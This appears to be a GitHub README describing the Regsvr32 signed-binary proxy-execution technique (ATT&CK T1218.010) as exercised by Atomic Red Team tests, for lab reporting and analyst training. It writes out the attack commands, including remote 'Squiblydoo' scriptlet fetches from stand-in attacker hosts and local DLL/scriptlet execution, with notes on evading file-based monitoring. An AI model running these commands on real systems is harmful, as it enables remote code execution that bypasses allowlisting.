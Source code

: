 # T1218.010 — Regsvr32 (Signed Binary Proxy Execution)

This README documents the **attack techniques** demonstrated by the Atomic Red Team T1218.010 tests (Regsvr32). It focuses on the *attack flow* — how adversaries abuse `regsvr32.exe` to execute remote or local scriptlets/DLLs — and includes a clear diagram visualizing the attack (for operational / lab reporting). This file does **not** cover detections or defenses; those are documented separately in `report.md`.

---

## Summary (attack-only)

**Regsvr32** can be abused in multiple ways:

* **Remote COM scriptlet execution (Squiblydoo):** `regsvr32.exe /s /u /i:https://attacker.host/file.sct scrobj.dll` — the scriptlet is fetched from an external URL and executed in the context of regsvr32.
* **Local COM scriptlet execution:** `regsvr32.exe /s /u /i:C:\path\RegSvr32.sct scrobj.dll` — a local `.sct` (scriptlet) is executed.
* **Local DLL execution:** `regsvr32.exe /s path\to\malicious.dll` — calls `DllRegisterServer` in the DLL which can execute arbitrary code.
* **Registering non-DLL extensions:** adversaries may rename a DLL (e.g. `shell32.jpg`) and call `regsvr32.exe /s shell32.jpg` to execute.
* **Silent install variant:** calling `regsvr32.exe /s /i "path"` to invoke the DLL install routine.

These variants let adversaries execute code under the signed `regsvr32.exe` binary, often bypassing naive allowlisting or monitoring that trusts Microsoft-signed binaries.

---

## Atomic Tests (attack commands only)

* **Test 1 — Regsvr32 local COM scriptlet execution**

  ```cmd
  C:\Windows\system32\regsvr32.exe /s /u /i:"C:\Path\To\RegSvr32.sct" scrobj.dll
  ```

* **Test 2 — Regsvr32 remote COM scriptlet execution**

  ```cmd
  C:\Windows\system32\regsvr32.exe /s /u /i:https://attacker.example.com/RegSvr32.sct scrobj.dll
  ```

* **Test 3 — Regsvr32 local DLL execution**

  ```cmd
  IF "%PROCESSOR_ARCHITECTURE%"=="AMD64" (C:\Windows\syswow64\regsvr32.exe /s C:\Path\AllTheThingsx86.dll) ELSE (C:\Windows\system32\regsvr32.exe /s C:\Path\AllTheThingsx86.dll)
  ```

* **Test 4 — Regsvr32 register non-DLL (renamed dll)**

  ```cmd
  C:\Windows\system32\regsvr32.exe /s %temp%\shell32.jpg
  ```

* **Test 5 — Regsvr32 silent DLL install calling DllRegisterServer**

  ```cmd
  C:\Windows\system32\regsvr32.exe /s /i "C:\Path\AllTheThingsx86.dll"
  ```

---

## Attack Flow Diagram

The diagram below describes the *attacker-centric* flow used in the Atomic tests — it shows how an attacker hosts a scriptlet/DLL and how regsvr32 is used to retrieve and execute it on the victim. This is intended for inclusion in lab reports or to explain the attack pattern to analysts.

```mermaid
flowchart LR
  Attacker[Attacker Host]
  Attacker -- Host scriptlet/DLL --> HTTP[HTTP(S) Server hosting .sct / .dll]

  Victim[Compromised Host]
  VictimRegsvr[regsvr32.exe]
  VictimRegsvr -->|Invoke with /i:url or /i:path| Scriptlet[COM Scriptlet (.sct) or DLL]
  Scriptlet -->|Executes| Payload[Arbitrary Code (calc.exe, backdoor, lateral tooling)]

  Attacker -.->|Triggers social engineering / malicious doc| VictimUser[User on Victim]
  VictimUser -->|Opens maldoc or runs command| VictimRegsvr

  subgraph Network
    HTTP
  end

  style Attacker fill:#ffe6e6,stroke:#900
  style Victim fill:#fffbe6,stroke:#aa8800
  style VictimRegsvr fill:#fff8f0,stroke:#aa5500
  style Scriptlet fill:#fff0f0,stroke:#aa0000
  style Payload fill:#ffefdf,stroke:#cc5500
```

---

## Notes (attack-centric)

* The remote scriptlet (`/i:https://...`) avoids writing files to disk on the victim and will still load and execute the script in process memory — this makes detection harder with naive file-only monitoring.
* Using `regsvr32.exe` leverages a signed Microsoft binary; organizations should assume `regsvr32` can be abused for execution and add behavior-based monitoring for suspicious regsvr32 command lines.
* The `scrobj.dll` argument is a normal regsvr32 parameter and should not be taken alone as benign; the presence of `/i:` with a URL or unfamiliar local scriptlet is the key indicator.

---
